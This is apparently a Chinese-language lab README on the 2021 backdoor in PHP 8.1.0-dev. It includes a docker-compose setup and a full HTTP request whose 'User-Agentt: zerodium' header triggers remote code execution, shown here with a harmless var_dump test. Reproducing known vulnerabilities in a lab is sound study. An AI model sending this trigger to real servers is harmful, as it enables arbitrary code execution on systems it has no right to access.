

# PHP 8.1.0-dev 开发版本后门事件

PHP 8.1.0-dev 版本在2021年3月28日被植入后门，但是后门很快被发现并清除。当服务器存在该后门时，攻击者可以通过发送**User-Agentt**头来执行任意代码。

参考链接：

- https://news-web.php.net/php.internals/113838
- https://github.com/php/php-src/commit/c730aa26bd52829a49f2ad284b181b7e82a68d7d
- https://github.com/php/php-src/commit/2b0f239b211c7544ebc7a4cd2c977a5b7a11ed8a

## 漏洞环境

执行如下命令启动一个存在后门的PHP 8.1服务器：

```
docker-compose up -d
```

环境启动后，服务运行在`http://your-ip:8080`。

## 漏洞复现

发送如下数据包，可见代码`var_dump(233*233);`成功执行：

```
GET / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
User-Agentt: zerodiumvar_dump(233*233);
Connection: close


```


